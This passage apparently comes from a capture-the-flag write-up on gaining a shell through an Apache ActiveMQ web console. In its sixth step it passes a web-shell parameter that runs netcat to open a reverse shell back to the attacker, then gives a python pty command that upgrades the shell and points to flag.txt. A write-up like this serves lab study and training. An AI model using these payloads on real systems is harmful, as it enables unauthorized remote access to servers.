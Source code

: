 ✅ The output will display information about the server's uname -a (kernel version, architecture, OS, etc.) — confirming the command execution. 🔍

## 🐚 6. Connecting via the Web Console and Opening a Shell
- We'll then connect to the ActiveMQ Web Console to send commands to the server.
- Parameters passed to the JSP to open a reverse shell:
```bash
pwd=gshell&shell=nc tun0 1234 -e /bin/sh
```

![Web-Console](images/10.png)

Description: This parameter instructs ActiveMQ to call `netcat` to connect to the tun0 IP on port `1234` and run `/bin/sh` on the target machine. — Upon successful completion, a shell on the target machine will be connected to us. ✅

- Once the connection is established, Elevate to a full interactive shell with:
```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```
Result: You'll have a shell that works like a regular terminal (commands like `cd`, `ls`, `cat` are now more convenient). 🛠️

- Next step: Try running ls to list the files in your current directory — you'll find the file `flag.txt` 🎯
